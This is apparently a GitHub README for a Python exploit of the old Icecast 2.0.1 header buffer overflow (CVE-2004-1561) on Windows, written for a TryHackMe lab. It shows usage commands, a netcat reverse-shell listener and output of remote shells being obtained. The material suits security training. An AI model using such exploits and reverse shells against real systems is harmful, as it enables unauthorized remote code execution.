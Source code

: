 # CVE-2004-1561 Icecast Header Overwrite buffer overflow RCE < 2.0.1 (Win32)

Python 3 Icecast Header Overwrite buffer overflow RCE < 2.0.1 (Win32), rewritten from this [Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/windows/http/icecast_header.rb). I rewrote this from the Metasploit module because I couldn't get [this](https://www.exploit-db.com/exploits/568) to work.

## Usage:
Replace reverse shell shellcode in exploit, call it with argument for remote server and port.

```
root@Kali:~/TryHackme/Ice# ./icecast.py 192.168.92.133 8000

Done!
```
Reverse shell listener:
```
root@Kali:~/TryHackme/Ice# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.92.128] from (UNKNOWN) [192.168.92.133] 49211
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Icecast2 Win32>
```

## Update for 568-edit.c
Managed to get the [original exploit](https://www.exploit-db.com/exploits/568) to work. Edited according [to this](https://www.exploit-db.com/exploits/573).

### Usage for 568-edit.c
```
root@Kali:~/TryHackme/Ice# gcc 568-edit.c -o 568
root@Kali:~/TryHackme/Ice# ./568 192.168.92.133

Icecast <= 2.0.1 Win32 remote code execution 0.1
by Luigi Auriemma
e-mail: aluigi@altervista.org
web:http://aluigi.altervista.org

shellcode add-on by Delikon
www.delikon.de

- target 192.168.92.133:8000
- send malformed data

Server IS vulnerable!!!
```
On listener
```
root@Kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.92.128] from (UNKNOWN) [192.168.92.133] 49238
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Icecast2 Win32>

```
